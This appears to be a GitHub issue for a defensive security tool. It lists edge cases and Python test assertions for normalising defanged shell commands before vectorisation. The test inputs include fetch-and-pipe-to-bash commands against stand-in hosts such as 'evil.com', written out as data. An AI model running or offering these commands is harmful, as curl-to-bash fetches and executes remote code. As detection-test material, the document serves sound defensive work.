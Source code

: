 
### Issue #2: Document Defanging Edge Cases

**Priority**: P0 - Critical Blocker  
**Labels**: `phase-0`, `defanging`, `documentation`, `testing`  
**Estimated Effort**: 4 hours  
**Assignee**: TBD  
**Dependencies**: Issue #1 (DefangingAwareNormalizer)  

**Description**:
Document comprehensive edge cases for defanging normalization with test examples. Critical for ensuring robust command vectorization.

**Acceptance Criteria**:
- [ ] Minimum 10 edge cases documented in Phase 0 document
- [ ] Each edge case includes:
  - Input (defanged command)
  - Expected normalized output
  - Challenge description
  - Test assertion code
- [ ] All edge cases have passing tests
- [ ] Edge cases cover:
  - Multiple defanging markers in single command
  - Nested command substitution
  - Already-normalized commands (idempotency)
  - Partial defanging
  - Unicode characters
  - Empty/whitespace commands
  - Malformed defanging markers

**Edge Cases to Document**:

#### Edge Case 1: Multiple Defanging Markers in Single Command
**Input**: `cxrl hxxp://evil.com [PIPE] bxsh script.sh`  
**Expected**: `curl [URL] | bash script.sh`  
**Challenge**: Multiple patterns must be reversed in correct order  
**Test**:
```python
assert normalize("cxrl hxxp://evil.com [PIPE] bxsh script.sh") == "curl [URL] | bash script.sh"
```

#### Edge Case 2: Nested Command Substitution
**Input**: `echo [SUBSHELL] cxrl hxxp://192.168.1.1 [SUBSHELL]`  
**Expected**: `echo $(curl [URL])`  
**Challenge**: Nested patterns with multiple defanging types  
**Test**:
```python
assert normalize("echo [SUBSHELL] cxrl hxxp://192.168.1.1 [SUBSHELL]") == "echo $(curl [URL])"
```

#### Edge Case 3: Already Normalized Commands (Idempotency)
**Input**: `curl http://evil.com`  
**Expected**: `curl [URL]`  
**Challenge**: Must not break already-normalized commands  
**Test**:
```python
vec1 = vectorizer.transform([normalize("cxrl hxxp://evil.com")])
vec2 = vectorizer.transform([normalize("curl http://evil.com")])
assert np.array_equal(vec1, vec2)
```
